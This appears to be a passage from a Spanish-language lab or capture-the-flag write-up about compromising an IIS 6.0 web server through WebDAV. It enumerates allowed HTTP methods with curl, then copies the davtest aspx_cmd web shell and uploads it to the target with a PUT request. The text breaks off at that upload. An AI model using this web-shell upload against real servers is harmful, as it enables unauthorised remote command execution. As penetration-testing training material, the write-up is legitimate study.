### Puerto 80 (http)

<figure><img src="../../../.gitbook/assets/port-80 (1).PNG" alt=""><figcaption></figcaption></figure>

#### Intrusión

* Mirar los metodos **HTTP** con curl

```shell
> curl -s -X OPTIONS "http://10.10.10.15" -I
HTTP/1.1 200 OK
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
MS-Author-Via: MS-FP/4.0,DAV
Content-Length: 0
Accept-Ranges: none
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Cache-Control: private
```

* Vemos que podemos utilizar **PUT** para subir una web-shell en aspx

```shell
> cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
> ls
 aspx_cmd.aspx
```

* Vamos a subir el archivo como .txt con **PUT**

```python
> curl -s -X PUT "http://10.10.10.15/cmdaspx.txt" -d @aspx_cmd.aspx
```
